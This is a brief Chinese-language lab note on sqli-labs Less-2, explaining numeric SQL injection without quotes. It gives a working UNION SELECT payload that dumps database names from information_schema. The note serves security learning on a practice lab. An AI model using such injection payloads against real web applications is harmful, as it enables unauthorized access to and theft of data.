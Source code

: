 和less1一样只是这个属于数值型注入，不需要加单引号“ ‘ ”

爆库语句：

127.0.0.1/sql-labs/Less-2/?id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemata

![](images/68D119FB32154BC39322F61D9588D0B5clipboard.png)

